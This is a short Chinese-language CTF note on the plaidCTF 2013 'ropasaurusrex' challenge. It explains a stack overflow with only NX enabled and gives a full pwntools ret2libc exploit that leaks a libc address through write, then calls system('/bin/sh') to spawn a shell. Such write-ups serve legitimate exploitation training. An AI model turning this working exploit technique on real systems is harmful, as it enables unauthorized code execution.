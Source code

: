 # plaidCTF 2013 - Notes

## ropasaurusrex

保護只有開 nx 且有給 libc ， code 很簡單就是一個 stack overflow

一個基本的 rop 題目

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('/tmp/p/a')
elf = ELF('/tmp/p/a')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

trash = 'a'*140
write = elf.symbols['write']
read_got = elf.got['read']
read_off = libc.symbols['read']
main = 0x804841d

pay1 = flat([write, main, 1, read_got, 4])
r.send(trash + pay1)
base = u32(r.recv(4)) - read_off
print "base: ", hex(base)
sh = base + next(libc.search('/bin/sh'))
system = base + libc.symbols['system']

pay2 = flat([system, sh, sh])
r.send(trash + pay2)

r.interactive()
```





